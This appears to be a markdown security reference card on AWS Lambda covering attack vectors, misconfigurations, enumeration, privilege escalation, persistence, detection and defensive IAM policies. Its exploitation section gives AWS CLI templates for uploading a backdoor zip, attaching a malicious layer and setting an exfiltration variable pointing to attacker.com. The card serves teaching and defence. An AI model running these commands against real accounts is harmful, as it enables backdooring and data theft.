

#  AWS Lambda Security



> **Category**: SERVERLESS

Lambda provides serverless function execution with execution roles controlling permissions. Over-privileged roles and secrets in environment variables are the primary attack vectors.

## Quick Stats

| Risk Level | Scope | Max Timeout | Execution |
| --- | --- | --- | --- |
| **HIGH** | **Regional** | **15 min** | **Roles** |

## Service Overview

### Execution Environment

Lambda functions run in isolated containers with temporary credentials from the execution role. Environment variables, layers, and event data can all contain sensitive information.

> Attack note: Execution roles are often overly permissive with broad S3, DynamoDB, or Secrets Manager access

### Triggers & Access

Functions can be triggered by API Gateway, S3, SQS, EventBridge, and more. Function URLs provide direct HTTP access without API Gateway.

> Attack note: Function URLs with NONE auth type are publicly accessible

## Security Risk Assessment

`████████░░` **7.5/10** (HIGH)

Lambda functions with over-privileged execution roles can be abused for credential theft and privilege escalation. Secrets in environment variables and code injection via event data are common vulnerabilities.

## ⚔️ Attack Vectors

### Credential Theft

- Over-privileged execution roles
- Secrets in environment variables
- Steal credentials from context
- Function code with hardcoded keys
- Layer contains sensitive data

### Code Exploitation

- Code injection via event data
- Dependency vulnerabilities
- Malicious layers
- Function URL without auth
- Deserialization attacks

## ⚠️ Misconfigurations

### IAM Issues

- Execution role with * permissions
- PassRole to any role
- Cross-account invoke allowed
- No resource-based policy
- Unused high-privilege roles

### Security Settings

- Function URL auth type NONE
- Secrets in plaintext env vars
- Outdated runtime versions
- No VPC configuration
- Code signing not enforced

## 🔍 Enumeration

**List All Functions**
```bash
aws lambda list-functions
```

**Get Function Details**
```bash
aws lambda get-function \\
  --function-name NAME
```

**Get Environment Variables**
```bash
aws lambda get-function-configuration \\
  --function-name NAME
```

**List Layers**
```bash
aws lambda list-layers
```

**Get Function Policy**
```bash
aws lambda get-policy --function-name NAME
```

## 📈 Privilege Escalation

### Function Abuse

- Invoke to steal role credentials
- Modify function code for backdoor
- Update configuration for exfil
- Attach permissive layer
- Create function with admin role

### Role Abuse

- PassRole to Lambda + CreateFunction
- Use execution role externally
- Chain to higher privilege role
- Access Secrets Manager
- Read from privileged S3

> **Key insight:** Lambda execution roles often have access to Secrets Manager, DynamoDB, and S3 with sensitive data.

## 🔗 Persistence

### Code Modification

- Update function code with backdoor
- Add malicious layer
- Modify environment variables
- Create new function version
- Update alias to backdoored version

### Trigger-Based

- Create S3 trigger for exfil
- Add SQS event source mapping
- EventBridge scheduled execution
- API Gateway endpoint
- CloudWatch Events rule

## 🛡️ Detection

### CloudTrail Events

- UpdateFunctionCode
- UpdateFunctionConfiguration
- CreateFunction
- AddLayerVersionPermission
- CreateEventSourceMapping

### Indicators of Compromise

- Function code changes without deploy
- New layers attached
- Unusual invocation patterns
- External IP in VPC flow logs
- Execution role used from odd IPs

## Exploitation Commands

**Invoke Function**
```bash
aws lambda invoke \\
  --function-name NAME \\
  --payload '{"cmd":"id"}' output.txt
```

**Update Function Code**
```bash
aws lambda update-function-code \\
  --function-name NAME \\
  --zip-file fileb://backdoor.zip
```

**Modify Environment Variables**
```bash
aws lambda update-function-configuration \\
  --function-name NAME \\
  --environment 'Variables={EXFIL=attacker.com}'
```

**Add Malicious Layer**
```bash
aws lambda update-function-configuration \\
  --function-name NAME \\
  --layers arn:aws:lambda:REGION:ACCOUNT:layer:backdoor:1
```

**Get Function Code (Download)**
```bash
aws lambda get-function --function-name NAME \\
  --query 'Code.Location' --output text | xargs curl -o code.zip
```

**Create Event Source Mapping**
```bash
aws lambda create-event-source-mapping \\
  --function-name NAME \\
  --event-source-arn arn:aws:sqs:REGION:ACCOUNT:queue
```

## Policy Examples

### ❌ Dangerous - Full Access

```json
{
  "Version": "2012-10-17",
  "Statement": [{
    "Effect": "Allow",
    "Action": "*",
    "Resource": "*"
  }]
}
```

*Function has FULL AWS access - complete account compromise*

### ✅ Secure - Least Privilege

```json
{
  "Version": "2012-10-17",
  "Statement": [{
    "Effect": "Allow",
    "Action": ["s3:GetObject"],
    "Resource": "arn:aws:s3:::my-bucket/input/*"
  }, {
    "Effect": "Allow",
    "Action": ["logs:CreateLogStream", "logs:PutLogEvents"],
    "Resource": "arn:aws:logs:*:*:log-group:/aws/lambda/my-func:*"
  }]
}
```

*Only specific S3 read and CloudWatch Logs access*

### ❌ Dangerous - PassRole

```json
{
  "Version": "2012-10-17",
  "Statement": [{
    "Effect": "Allow",
    "Action": "iam:PassRole",
    "Resource": "*"
  }]
}
```

*Can pass any role to any service - privilege escalation*

### ✅ Secure - Resource Policy

```json
{
  "Version": "2012-10-17",
  "Statement": [{
    "Effect": "Allow",
    "Principal": {"AWS": "arn:aws:iam::123456789012:role/APIGatewayRole"},
    "Action": "lambda:InvokeFunction",
    "Resource": "arn:aws:lambda:us-east-1:123456789012:function:my-func"
  }]
}
```

*Only specific API Gateway role can invoke the function*

## Defense Recommendations

### 🔐 Least Privilege Roles

Scope permissions to exact resources and actions needed.

```bash
"Resource": "arn:aws:s3:::my-bucket/prefix/*"
```

### 🚫 Use Secrets Manager

Never store secrets in environment variables.

```bash
aws secretsmanager get-secret-value \\
  --secret-id my-api-key
```

### 🔒 Function URL IAM Auth

Require IAM authentication for function URLs.

```bash
--auth-type AWS_IAM (not NONE)
```

### 📝 Resource Policies

Restrict who can invoke the function.

```bash
"Principal": {"AWS": "arn:aws:iam::ACCOUNT:role/AllowedRole"}
```

### 🌐 VPC Isolation

Run functions in private VPC subnets when possible.

```bash
--vpc-config SubnetIds=subnet-xxx,\\
SecurityGroupIds=sg-xxx
```

### 🔍 Code Signing

Only allow signed code packages to be deployed.

```bash
aws lambda create-code-signing-config \\
  --allowed-publishers SigningProfileVersionArns=...
```

---

*AWS Lambda Security Card*

*Always obtain proper authorization before testing*
